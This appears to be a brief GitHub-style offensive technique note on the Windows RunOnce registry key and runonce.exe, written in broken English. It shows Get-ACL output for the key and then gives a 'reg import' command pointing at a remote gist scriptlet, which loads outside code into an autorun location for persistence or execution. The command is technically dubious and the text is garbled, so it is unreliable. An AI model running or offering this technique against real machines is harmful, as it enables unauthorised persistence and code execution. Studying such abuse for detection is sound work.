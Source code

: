 ### Runonce.exe clear to the meaning its name,
runonce.exe is a program to service the customer of types the services like any tool for an installation or a setup, It's a custom to operate any kind an installable

```
PS C:\> Get-ACL -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         null Allow  ReadKey
Audit  :
Sddl   : null



PS C:\>
```

## At this point don't get away that you can import this registry file
C:\> reg import 
https://gist.githubusercontent.com/homjxi0e/66555fedc78af49635b2e5dfea9dd1ae/raw/60b80e88c66fe58d2d906bb24f32925edd2fe025/runonce.Scriptlet

![1231312312313123132131231321313](https://user-images.githubusercontent.com/25440152/47598884-48424780-d9a3-11e8-9816-a084b045ac71.PNG)
